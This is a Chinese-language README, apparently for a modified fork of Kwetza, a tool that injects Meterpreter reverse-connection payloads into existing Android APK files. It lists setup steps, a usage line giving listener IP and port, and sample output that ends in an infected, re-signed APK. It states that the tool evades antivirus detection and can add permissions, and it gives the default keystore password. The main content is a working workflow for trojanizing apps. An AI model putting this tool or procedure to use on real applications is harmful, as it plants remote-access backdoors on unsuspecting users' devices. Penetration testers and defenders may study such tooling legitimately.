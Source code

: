 # 介绍
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza是一种工具，可让您将Meterpreter payload植入到Android应用程序。
# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# 它有什么作用？

Kwetza使用自定义或默认payload模板感染现有的Android应用程序，以避免被杀病毒软件检测出来。Kwetza允许您使用目标应用程序的默认权限感染Android应用程序，或注入其他权限以获得其他功能。
# 在哪里可以获得博客文章？
可以在以下位置找到由Kwetza自动化的手动步骤：https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# 获取代码

首先获取代码：
```
git clone https://github.com/2487686673/Kwetza.git
```

Kwetza用Python编写，需要BeautifulSoup，可以使用pip安装：
```
pip install beautifulsoup4
```
Kwetza要求安装Apktool并可以通过您的PATH访问。可以使用位于此处的安装说明进行设置：https://ibotpeaches.github.io/Apktool/install
# 用法

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = 希望植入payload的apk文件名

* LHOST = 监听IP

* LPORT = 监听端口

* yes/no = 选择yes则会添加额外的权限，选择no则会利用app原来的权限

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# 信息
Kwetza以Python 2开发。

Kwetza默认会使用payload文件夹下的模板和keystore在apk中植入恶意payload。

如果要用自己的证书签署应用，把你的keystore重命名为mykey.keystore放在payload文件夹下。

你也可以用同样的方法替换默认的payload模板

默认keystore的密码是”password”

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
